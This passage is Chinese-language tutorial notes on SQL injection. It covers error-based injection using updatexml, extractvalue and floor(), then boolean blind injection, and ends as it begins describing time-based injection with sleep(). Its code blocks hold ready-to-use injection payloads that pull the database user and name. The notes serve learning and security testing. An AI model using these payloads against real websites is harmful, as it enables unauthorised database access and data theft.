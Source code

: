 #### 报错注入的常用函数

> updatexml(xml_doument,XPath_string,new_value)
> 第一个参数：XML的内容
> 第二个参数：是需要update的位置XPATH路径
> 第三个参数：是更新后的内容
> 所以第一和第三个参数可以随便写，只需要利用第二个参数，他会校验你输入的内容是否符合XPATH格式,是用/xxx/xxx/xxx/....这种格式，以～开头的内容肯定不是xml格式的语法
>
> 该函数最大显示长度为32，超过长度可以配合substr、limit等函数；来显示（extractvalue 类似

* substr从1开始 每次需增加31才能刚好到32

>Floor()
>
>floor()报错注入的原因是**group by**在向临时表插入数据**时，由于**rand()**多次计算导致插入临时表时主键**重复**，从而报错，又因为报错前**concat()**中的**SQL**语句或函数被执行**，所以该语句报错且被抛出的主键是SQL语句或函数执行后的结果
>
>该函数最大显示长度为64，超过长度可以配合substr、limit等函数来显示

```sql
* "updatexml() ": select * from test where id = 1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)); 
* "floor()": select * from test where id =1 and (select 1 from (select  count(*),concat((select user()),floor(rand(0)*2)) x from information_schema.tables group by x) a );
* "extractvalue": select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
# 等等
```

## 布尔盲注

**布尔盲注一般适用于页面没有回显字段不支持联合查询和报错注入，且web页面返回True 或者 false，**

构造SQL语句，利用and，or等关键字来其后的语句 true 或 false 使web页面返回 true 或 false，从而达到注入的目的来获取信息

#### 查询数据内容

由于没有回显，只能利用一些函数构造等式、判断数据内容

length（）返回一个字符串的长度，可以判断字符串sql查询结果的长度

```sql
"判断当前数据库的名字的长度"
and length(database())=8 -- +
"使用指定字符一位一位判断截取到的字符"
and substr(database(),1,1)='a' -- +
"截取制定长度，进行判断"
and left(database(),8)='xxxxxxxx'
"可使用ascii函数，查询截取到字符的ascii码"
and (substr((database()),1,1))=xxx -- +
```

## 延时注入

**延时注入是盲注的一种，在页面没有回显和报错，也不能通过拼接 and 0 、and 1 的布尔表达式来判断sql语句是否成功执行，只能在参数后and sleep(5) ， 加上延时函数sleep()， 如果sql语句执行页面刷新就会有一定的延时，根据页面是否有延时来判断sql语句执行与否所以叫做延时注入**
